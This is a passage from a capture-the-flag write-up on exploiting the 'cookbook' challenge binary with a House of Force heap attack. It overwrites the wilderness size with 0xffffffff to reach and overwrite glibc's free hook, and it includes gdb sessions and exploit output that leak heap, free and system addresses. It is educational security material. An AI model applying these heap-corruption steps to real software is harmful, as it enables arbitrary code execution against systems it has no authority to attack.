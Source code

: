 So we can see here that we were able to successfully write over the wilderness value with `3333`. In our exploit, because of how our input is different than here, the offset to the wilderness will only be `8` bytes instead of `12` (so it will be where we put `2222`). In addition to that we will write to it `0xffffffff`, and we will write the value after it to be `0x0` because of the trailing newline.

#### Write over free hook

Now that we have overwritten the wilderness value, we can allocate space in other sections of memory. To write to the free hook, we will do this in two allocations. The first one will bring us a little before the free hook (reason why it isn't right up untill the free hook is because of the heap meta data which we also have to take into account). With the input from our second allocation, we will be able to write directly over the free hook. First let's find the offsets (At this point I will be working from my exploit):

First start the exploit
```
$	python exploit.py 
[+] Starting local process './cookbook': pid 9239
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/bkp16/cookbook/cookbook" 9239
[+] Waiting for debugger: Done
[*] Heap leak is: 0x8ffe6d8
[*] Wilderness is at: 0x8fff410
[*] Address of free: 0xf75e0dc0
[*] Address of system: 0xf75a9060
```

So we need to figure out first the address of where the wilderness is at, and the space needed for the firts allocations. 

```
gdb-peda$ find 0xffffffff
Searching for '0xffffffff' in: None ranges
Found 1717 results, display max 256 items:

```

There are a lot of instances of `0xffffffff`, however only one that is in the heap so it is fairly easy to spot.

```
  [heap] : 0x8fff414 --> 0xffffffff 
```

and when we analyze it:
```
gdb-peda$ x/wx 0x8fff414
0x8fff414:	0xffffffff
gdb-peda$ x/2wx 0x8fff410
0x8fff410:	0x00000000	0xffffffff
```

So we can see that the wilderness starts at `0x8fff414`. We can use python to find the offset:

```
>>> hex(0x8fff414 - 0x8ffe6d8)
'0xd3c'
```
